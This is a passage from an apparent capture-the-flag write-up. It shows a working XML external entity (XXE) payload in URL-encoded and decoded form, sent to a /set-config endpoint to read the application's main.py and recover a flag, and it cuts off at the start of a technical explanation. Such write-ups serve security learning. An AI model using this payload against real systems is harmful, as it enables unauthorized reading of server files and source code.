 
## 🚩 Step 3: First Flag - XXE Exploitation for Source Code Access
I exploited the XXE vulnerability to read the main application source code.

**XXE Payload (URL-encoded):**
```
/set-config?data=<%3C%3Fxml%20version%3D%221%2E0%22%3F%3E%0A%3C%21DOCTYPE%20root%20%5B%0A%20%20%3C%21ENTITY%20xxe%20SYSTEM%20%22main%2Epy%22%3E%0A%5D%3E%0A%3Cconfig%3E%0A%20%20%3Clocation%3E%26xxe%3B%3C%2Flocation%3E%0A%3C%2Fconfig>
```

**XXE Payload (decoded):**
```xml
<?xml version="1.0"?>
<!DOCTYPE root [
  <!ENTITY xxe SYSTEM "main.py">
]>
<config>
  <location>&xxe;</location>
</config>
```

This payload successfully read the contents of `main.py`, which contained the first flag embedded in the source code.

![First Flag](FirstFlag.png)

### 🔬 Technical Explanation: XXE Vulnerability
